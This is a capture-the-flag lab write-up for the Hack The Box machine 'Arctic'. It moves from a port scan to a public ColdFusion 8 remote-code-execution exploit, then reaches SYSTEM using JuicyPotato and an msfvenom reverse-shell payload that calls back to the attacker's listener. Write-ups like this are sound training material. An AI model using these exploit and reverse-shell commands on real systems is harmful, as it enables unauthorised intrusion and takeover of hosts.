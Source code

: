 ```yaml
---
title: "HTB Arctic"
permalink: /writeups/arctic
location: default
---
```


# HTB Arctic

**Machine Information**

	IP : 10.10.10.11
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.11 -- -sC -sV -Pn
```

This should reveal three open ports: `135`, `8500`, and `49154`

```
PORT      STATE SERVICE REASON  VERSION
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Investigate each of the ports and there should be a web server running on port 8500.

<http://10.10.10.11:8500/>

The default page is an `Index of /` and allows directory listing so we can explore the available files. Exploring the directories will reveal an Adobe ColdFusion 8 Administrator panel at the following location:

<http://10.10.10.11:8500/CFIDE/administrator/>

### Getting a Foothold

**Adobe ColdFusion Exploit**

Check for known exploits using `searchsploit`.

```
searchsploit coldfusion 8
```

This will reveal a python script that we can use for remote code execution.

```
Adobe ColdFusion 8 - Remote Command Execution (RCE) | cfm/webapps/50057.py
```

<https://www.exploit-db.com/exploits/50057>

Open the exploit and update the `LHOST`, `LPORT`, and `RHOST` parameters to the appropriate values. Start a new `netcat` listener and run the exploit.

```
python3 50057.py
```

Success!

```
C:\ColdFusion8\runtime\bin>whoami
arctic\tolis
```

The user flag can be found in the following directory:

```
C:\Users\tolis\Desktop\user.txt
```

### Privilege Escalation

Checking our users privileges with `whoami /priv` reveals that we have the `SeImpersonatePrivilege` which may be exploitable.

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

For this we need to upload the `JuicyPotato.exe` exploit that can be downloaded from the following link:

<https://github.com/ohpe/juicy-potato/releases/tag/v0.1>

We will also need a reverse shell payload that can be generated using `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shelly.exe
```

Once both of these are on the target machine start a new `netcat` listener and run the exploit.

```
.\JuicyPotato.exe -t t -p .\shelly.exe -l 5837
```

Success!

```
C:\Windows\system32>whoami
nt authority\system
```

The root flag can be found in the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
